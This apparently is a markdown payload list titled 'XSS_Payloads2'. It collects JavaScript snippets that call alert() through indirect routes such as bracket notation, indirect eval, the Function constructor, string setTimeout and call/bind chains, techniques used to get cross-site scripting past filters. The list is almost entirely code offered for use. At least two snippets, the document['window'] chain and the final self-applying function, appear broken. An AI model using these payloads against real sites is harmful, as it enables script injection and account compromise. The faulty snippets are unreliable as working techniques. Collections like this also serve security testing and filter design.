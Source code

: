 # XSS_Payloads2

## Array Notation  
```js
window['alert']('Hello');
```


## Chained Array Notation  
```js
this['window']['alert']('Hello');
```


## Indirect Reference Using Call/Apply  
```js
(0, eval)('alert("Hello")');
```


## Calling via Function Constructor  
```js
(new Function('alert("Hello")'))();
```


## SetTimeout or SetInterval  
```js
setTimeout('alert("Hello")', 0);
```


## Indirect Reference with call  
```js
window.alert.call(this, 'Hello');
```


## Using bind  
```js
const alertBind = alert.bind(window);
alertBind('Hello');
```


## anon functions  
```js
(() => alert('Hello'))();
```


## Self-Invoking Function with alert  
```js
(function(){ alert('Hello'); })();
```


## Function call  
```js
Function.prototype.call.call(alert, window, 'Hello');
```


## Global this  
```js
(this || window).alert('Hello');
```


## chaining doc and window  
```js
document['window']['alert']('Hello');
```


## Reclusive indirect function calling  
```js
(((f) => f(f))((f) => alert('Hello')))();
```

